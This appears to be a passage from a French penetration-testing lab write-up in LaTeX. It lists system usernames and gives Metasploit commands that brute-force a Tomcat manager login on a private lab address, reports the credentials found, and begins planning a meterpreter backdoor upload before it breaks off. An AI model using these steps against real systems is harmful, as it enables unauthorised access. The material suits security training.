 \documentclass[a4paper]{article}
\begin{document}
\begin{enumerate}
\begin{example}
\begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
systemd-resolve, systemd-timesync, tcpdump, trouble, tss, udadmin, ultra,
umountfs, umountfsys, umountsys, unix, unscd, us_admin, usbmux, user, uucp,
uucpadm, uuidd, vagrant, varnish, web, webmaster, whoopsie, www, www-data,
xpdb, xpopr, zabbix
\end{Verbatim}
        \end{example}
    \end{example}
    \item Maintenant, je vais essayer de trouver les mots de passe y correspondant. 
    \begin{example}
        Commandes utilisées:
        \begin{itemize}
            \item \texttt{\footnotesize python3 -c "print('$\backslash$n'.join('<users\_list>'.split(', '))" | tee list.txt}
            \item \texttt{\footnotesize search tomcat scanner}
            \item \texttt{\footnotesize use auxiliary/scanner/http/tomcat\_mgr\_login}
            \item \texttt{\footnotesize set RHOSTS 192.168.1.4}
            \item \texttt{\footnotesize set RPORT 8282}
            \item \texttt{\footnotesize set TARGETURI /manager/html}
            \item \texttt{\footnotesize set USER\_FILE list.txt}
            \item \texttt{\footnotesize set PASS\_FILE /usr/share/wordlists/metasploit/unix\_passwords.txt}
            \item \texttt{\footnotesize run}
        \end{itemize}
        Ça ne fonctionne pas avec ces listes mais en cherchant d'autres listes d'utilisateurs et de mots de passe, j'ai \textcolor{blue}{\textbf{réussi}} à trouver les login et mot de passe: sploit/sploit.
    \end{example}
    \item Ensuite, je vais créer une backdoor que je peux uploader sur la partie administration du site. Une fois que c'est fait, il suffit de se rendre sur la page pour que le module s'exécute et accèder à la machine.
    \begin{example}
        Commandes utilisées:
        \begin{itemize}
            \item \texttt{\footnotesize msfvenom -{}-list format}
            \item \texttt{\footnotesize search meterpreter payload java}

\end{itemize}
\end{example}
\end{enumerate}
\end{document}
